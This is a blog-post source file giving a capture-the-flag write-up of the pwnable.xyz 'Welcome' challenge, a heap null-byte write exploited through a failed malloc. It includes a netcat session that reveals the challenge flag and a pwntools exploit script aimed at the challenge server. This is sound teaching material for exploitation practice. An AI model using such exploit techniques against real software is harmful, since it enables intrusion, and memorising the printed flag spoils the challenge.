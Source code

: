 ```yaml
---
layout: post
title: "PwnableXYZ: Welcome challenge"
date: 2024-02-06
tags: [Pwn] 
description: This post discuss the solution for the first pwnable.xyz challenge.
---
```


# Introduction
That is my first post in 2024, so I thought to refresh my knowledge about binary exploitation by going through the [pwnable.xyz](https://pwnable.xyz/) challenges in my free time. This post will be the write-up for the first challenge **"Welcome"**.

# Gaining insights on the binary

The first step I usually do, is to check the mitigations of the binary using the `checksec` command in pwndbg. The command's output shows that all the mitigations are turned on.

![img]({{'/assets/images/PwnableXYZ-Welcome/img1.png' | relative_url }}){: .center-image }*(**The mitigations status**)*

By executing the binary, I found that it prints out a hexadecimal number representing a memory address leak and receives two inputs, which are the message's length and the message itself, as shown below.

> CommandLine 
{:.filename}
{% highlight CMD %}
$ ./challenge
Welcome.
Leak: 0x7f318f02c010
Length of your message: 5
Enter your message: aaaaa
aaaa
{% endhighlight %}

# Finding the vulnerability

The main function starts with calling the function at address 0x100b4e, which is responsible for stopping the buffering for stdin and stdout. Also, it automatically signals the program to exit in 60 seconds.

![img]({{'/assets/images/PwnableXYZ-Welcome/img2.png' | relative_url }}){: .center-image }*(**The function at 0x100b4e**)*

After that, it allocates memory from memory the heap whose address is saved to a pointer `HeapPtr1` and sets its first byte to 1. Then, it prints out the `HeapPtr1` value that represents the memory leak, we saw previously. In the next step, it receives from the user two inputs: a number representing the message size and the message. The message is a string whose address in the heap is saved into a pointer called `HeapPtr2`, as appears below.

![img]({{'/assets/images/PwnableXYZ-Welcome/img3.png' | relative_url }}){: .center-image }*(**Allocating memory for the message**)*

Finally, the last byte of the message is set to null, and the program prints it to the screen. Also, as appears below, to print the flag, the first byte of the memory pointed to by a `HeapPtr1` must be equal to zero. However, it's equal to one.

![img]({{'/assets/images/PwnableXYZ-Welcome/img4.png' | relative_url }}){: .center-image }*(**The vulnerable code**)*

The above highlighted line represents the vulnerability that will enable us to set the first byte of `HeapPtr1` to zero using the message size that we control.

# Exploiting the vulnerability

To exploit the vulnerability, first, we need the result of `HeapPtr2 + msgSize-1` to equal the leaked address. That is achieved by inputting the message size with value `HeapPtr1 + 1`, which will cause the `malloc` to return zero (`HeapPtr2` is zero), as it will fail to allocate the requested memory size, leading us to set the first byte of `HeapPtr1` to zero.

There are two ways to exploit that binary, the first one, as shown below, is achieved by converting the leaked address from hexadecimal to decimal. Then, incrementing and inputting it as message size. However, this conversion must be within 60 seconds before the program is signaled to exit.

> CommandLine 
{:.filename}
{% highlight CMD %}
$ nc svc.pwnable.xyz  30000
Welcome.
Leak: 0x7fac38973010
Length of your message: 140377660534801
Enter your message: 32323
FLAG{did_you_really_need_a_script_to_solve_this_one?}
{% endhighlight %}

The second way is to implement a Python script that uses [pwntools](https://docs.pwntools.com/en/stable/), to automate the previous task, as the following script.

> exploit.py
{:.filename}
{% highlight Python %}
from pwn import *

conn = remote("svc.pwnable.xyz",30000)
data = str(conn.recvuntil(b"message: "),"utf-8")
lines = data.split("\n")
leak = lines[1].split(":")[1].strip() #leaked address
OverwriteAddress = int(leak,16) # convert it to decimal
address = str(OverwriteAddress+1) # increment the address
conn.sendline(str.encode(address)) # input message size to be equal the leaked address + 1
conn.sendline(b"random") # send anything and it will work
flag = conn.recvall()
print(flag) # the flag
{% endhighlight %}



